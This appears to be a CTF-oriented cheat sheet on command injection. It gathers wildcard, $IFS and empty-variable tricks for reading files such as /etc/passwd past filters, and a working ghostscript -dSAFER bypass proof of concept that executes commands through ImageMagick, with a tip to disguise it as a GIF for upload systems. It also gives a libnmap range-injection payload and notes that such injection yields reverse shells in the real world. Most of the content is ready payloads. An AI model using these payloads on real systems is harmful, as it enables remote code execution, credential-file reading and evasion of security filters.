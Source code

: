 # Command injection  
1. [ghostscript RCE](#ghostscript-rce)  
2. [Command Injection in libnmap](#command-injection-in-libnmap-<nodejs>)  
3. [Bypass with Uninitialized Variable in PHP](#bypass-with-uninitialized-variable-in-php)  

In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag

// borrow from env variable
// Windows: start from a count for b
%comspec:~a,b%
Linux: ${PATH:a:b}

// ${a} become empty which can be ignored
c${a}a''t /et``c/pa""ss${aa}wd
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  

Others from `convert xxx.jpg xxx` can trigger the RCE, someone found that `less .jpg` can also trigger it. But why?  
```php
strace -f -o trace_result.txt less xxx.jpg

// one is suspicious
execve("/bin/sh", ["sh", "-c", "/usr/bin/lesspipe.sh xxx.jpg"], [/* 10 vars */]) = 0
```  
Then we can find something in the `lesspipe.sh`, it use `identify` command of ImageMagick to output the information of jpeg.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)  
[用二進制的方式fuzzing ImageMagick漏洞](https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md)  

## Command Injection in libnmap <Nodejs>
libnmap is the third party module for nodejs to access nmap. If attacker can control the scanned range of ip, it might cause to command injection.  
```js
range:[
	"a.b.$(id)"
]
```  
A very simple vulnerability  
[Hackerone report](https://hackerone.com/reports/390865)  

## Bypass with Uninitialized Variable in PHP  
`$u` would be parsed to empty string in bash, but parsed as original string to bypass the waf  
```php
cat$u /etc$u/passwd$u
```  
[Web Application Firewall (WAF) Evasion Techniques #3](https://www.secjuice.com/web-application-firewall-waf-evasion/)
